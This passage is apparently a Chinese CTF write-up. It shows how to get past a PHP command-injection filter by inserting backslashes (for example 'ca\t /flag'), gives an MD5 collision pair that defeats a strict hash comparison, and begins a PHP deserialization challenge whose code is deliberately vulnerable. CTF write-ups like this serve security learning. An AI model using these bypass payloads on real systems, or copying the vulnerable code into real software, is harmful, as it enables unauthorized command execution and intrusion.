 ```php+HTML
```

发现是一个远程rce，但是要绕过两层。第一层是如下对`cmd`进行过滤：

```php
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
}
```

但在测试后发现` \` 居然没有被过滤掉。

![image-20210108235028264](image-20210108235028264.png)

因此我们可以用

```
cmd=l\s
cmd=ca\t /flag
```

ps：若没有`\`我们可以用dir来读取目录，用sort或php命令来读取文件。

然后就是md5绕过：

```
 if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b']))
```

由于`(string)`的存在，所以不能用数组绕过，只能用两个数据去强碰。

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

从而得到flag：

![image-20210108233121010](image-20210108233121010.png)

## easy_serialize_php

进入题目发现原代码:

```php
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

```